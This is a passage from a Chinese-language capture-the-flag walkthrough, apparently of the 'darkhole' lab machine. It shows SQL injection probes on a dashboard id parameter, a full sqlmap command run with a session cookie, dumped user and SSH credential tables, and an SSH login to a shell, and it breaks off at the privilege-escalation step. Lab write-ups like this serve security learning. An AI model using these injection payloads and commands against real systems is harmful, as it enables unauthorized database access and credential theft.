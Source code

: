 2. `url`是`/dashboard.php?id=1` ，像是存在`sql`注入，可以尝试下
    
    ```python
    /dashboard.php?id=1' # 页面空白
    /dashboard.php?id=1'--+ # 成功闭合，存在注入
    ```
    
    就不使用手工注入了，直接上`sqlmap` ，记得要想拿到`cookie` ，不然没有登陆状态
    
    ```python
    sqlmap -u http://192.168.75.185/dashboard.php?id=1 --cookie PHPSESSID=n22sg8e16sjbgs2c7g7kffofmf -batch
    ```
    
    爆出两张表 `users` 以及`ssh` ，`ssh`应该是能使用 `ssh`登录的用户，两张表的数据我们都`dump`下
    
    ```python
    # users
    +----+----------------+-------------------------------------------+----------+-----------------------------+----------------+
    | id | email          | address                                   | password | username                    | contact_number |
    +----+----------------+-------------------------------------------+----------+-----------------------------+----------------+
    | 1  | lush@admin.com |  Street, Pincode, Province/State, Country | 321      | Jehad Alqurashiasddasdasdas | 1              |
    +----+----------------+-------------------------------------------+----------+-----------------------------+----------------+
    # ssh
    +----+------+--------+
    | id | pass | user   |
    +----+------+--------+
    | 1  | fool | jehad  |
    +----+------+--------+
    ```
    
3. 我们拿`ssh`表的用户去登陆下

## 提权 - jehad用户

1. 我们拿`ssh`表的用户去登陆下
    
    ```python
    ssh jehad@192.168.75.185                
    jehad@darkhole:~$ 
    ```
    
    获得`shell`！！！
    
2. 查看权限
    